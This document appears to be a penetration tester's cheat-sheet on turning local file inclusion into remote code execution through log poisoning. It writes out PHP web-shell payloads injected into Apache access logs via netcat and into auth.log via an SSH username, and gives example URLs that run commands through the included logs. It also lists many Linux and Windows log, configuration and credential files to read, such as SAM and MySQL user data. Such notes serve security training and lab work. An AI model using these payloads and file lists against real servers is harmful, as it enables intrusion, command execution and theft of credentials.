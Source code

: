 https://vulndev.io/2022/09/17/sqli-lfi-to-rce-xamlx-impersonation-streamio-hackthebox/

##  Contaminating Log Files

[+] through the logs to the apache server

========================================================================
>   nc -nv 10.11.0.22 80
>   <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
HTTP/1.1 400 Bad Request
========================================================================

[+] Code executing using Apache server logs

>   http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig

![](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/web/54eae3266115e296c113a89529a93801-webapp_lfi_04.png)


##	LFI

>	192.168.211.80/console/file.php?file=php://filter/convert.base64-encode/resource=/var/www/html/console/file.php


##  Log files to read

##	Read apache docs 

-	/etc/apache2/sites-enabled
-	/var/log/apache2/useragent.log
-	`/var/log/apache2/access.log`	[Important]	
-	/etc/apache2/apache2.conf
-	/var/log/apache2
-	/var/log/auth.Logs	[SSH-Logs]
-	/var/log/auth.log

>	 ssh '<?php system($_GET['c']); ?>'@192.168.171.80
>	http://192.168.171.80/console/file.php?file=/var/log/auth.log&c=whoami

'<?php system($_GET['c']); ?>'
##	FTP Logs locations
/var/log/vsftpd.log 
/etc/vsftpd.conf
/var/ftp/pub/php_reverse_shell.php



C:\xampp\apache\logs\access.log


/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log

/boot.ini
/WINDOWS/win.ini
/WINNT/win.ini
/WINDOWS/Repair/SAM
/WINDOWS/php.ini
/WINDOWS/system32/drivers/etc/hosts
/WINNT/php.ini
/php/php.ini
/php5/php.ini
/php4/php.ini
/apache/php/php.ini
/xampp/apache/bin/php.ini
/home2/bin/stable/apache/php.ini
/home/bin/stable/apache/php.ini
/Program Files/Apache Group/Apache/logs/access.log
/Program Files/Apache Group/Apache/logs/error.log
/Program Files/Apache Group/Apache/conf/httpd.conf
/Program Files/Apache Group/Apache2/conf/httpd.conf
/Program Files/xampp/apache/conf/httpd.conf
/Program Files/FileZilla Server/FileZilla Server.xml
/Program Files (x86)/Apache Group/Apache/logs/access.log
/Program Files (x86)/Apache Group/Apache/logs/error.log
/Program Files (x86)/Apache Group/Apache/conf/httpd.conf
/Program Files (x86)/Apache Group/Apache2/conf/httpd.conf
/Program Files (x86)/xampp/apache/conf/httpd.conf
/Program Files (x86)/FileZilla Server/FileZilla Server.xml
/AppServ/MySQL/data/mysql/user.MYD



##  Files to read

C:\xampp\php\php.ini



https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#lfi

